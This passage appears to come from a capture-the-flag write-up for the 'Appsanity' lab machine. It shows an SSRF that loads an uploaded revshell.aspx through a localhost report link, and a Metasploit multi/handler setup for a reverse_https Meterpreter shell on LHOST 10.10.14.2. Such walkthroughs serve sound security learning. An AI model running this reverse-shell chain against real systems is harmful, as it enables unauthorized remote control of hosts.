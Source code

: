 Copy the "View Report" link and change the domain to http://127.0.0.1:8080
It will look like something like this:
> http://127.0.0.1:8080/ViewReport.aspx?file=9c934f73-3fea-4b65-af6c-d6d6a960a0ff_revshell.aspx

### User Shell

Finally, to get our first shell in the machine, we setup a meterpreter listener
``` bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.2
set LPORT 1337
set ExitOnSession false
run
```
![](Appsanity/meterpreterlistener1.png)

Now we just place the link to open the shell in the "Issue Prescriptions" menu and we get a shell
![](Appsanity/ssrfshell1.png)
![](Appsanity/meterpretersessionopen.png)
![](Appsanity/session1.png)
